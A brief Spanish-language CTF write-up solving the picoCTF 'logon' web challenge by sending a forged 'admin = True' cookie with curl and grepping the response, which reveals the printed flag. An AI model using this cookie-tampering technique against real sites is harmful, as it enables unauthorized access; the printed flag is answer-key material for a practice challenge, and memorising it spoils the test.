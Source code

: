 ## Reto: logon
### Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
### Solución
Entramos a la pagina a donde nos dirige esa pagina, gracias al comando proporcionado en la materia, ingresamos a la linea de comandos `Kali-Linux` y ingresamos el siguiente comando:

```r
curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: username;password;admin = True" | grep pi
coCTF{.*}
```

Este comando nos permite ingresar a la cookie donde se encuentra la bandera, y `grep` nos sirve para solo buscar e identificar la bandera.

```html
 <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
```

Y ya encontramos la bandera:
```flag

```


### Notas adicionales
### Referencias
